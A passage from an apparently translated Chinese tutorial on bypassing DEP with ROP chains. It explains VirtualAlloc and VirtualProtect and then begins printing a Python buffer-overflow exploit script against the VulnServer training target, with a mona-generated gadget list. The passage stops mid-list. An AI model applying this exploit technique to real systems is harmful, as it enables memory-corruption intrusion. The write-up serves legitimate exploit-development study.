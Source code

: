 这里存在大量的操作，有一些十分令人困惑。让我们看一下 VirtualAlloc 的 MSDN，并更好地了解它与 DEP 的关系。

*保留，修改调用进程的一块虚拟内存地址的状态，此函数分配的内存初始化为零。*

```c#
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

检查 VirtualProtect（另一个经常被滥用的绕过 DEP 的函数），我们可以看到这两个函数之间的功能有一些相似之处

*改变调用进程的虚拟地址空间一块区域的保护状态。*

```c#
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

首先在我们上面的 ROP 链的中，它从 sechost.dll 的 Import Address Table 获取 VirtualAlloc() 的位置，然后返回。请记住，ROP 链中的每个 gadget 都需要指定一个 retn 操作码，以将控制权返回给链中的后续 gadget。在对参数进行一些巧妙的计算之后，链将这些参数分配给 VirtualAlloc，并使用以下启发式调用

1. 分配一个新的内存区域 
2. 从 DEP 中去掉该区域 
3. 将 shellcode 的位置存储到 EAX 
4. 从 EAX 返回到 shellcode 的新位置

让我们生成另一个 ROP 链，将 C 更改为 \xCC 以实现一个调试器中断，看看会发生什么（请注意，这个新链使用了 VirtualProtect 绕过 DEP）

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
```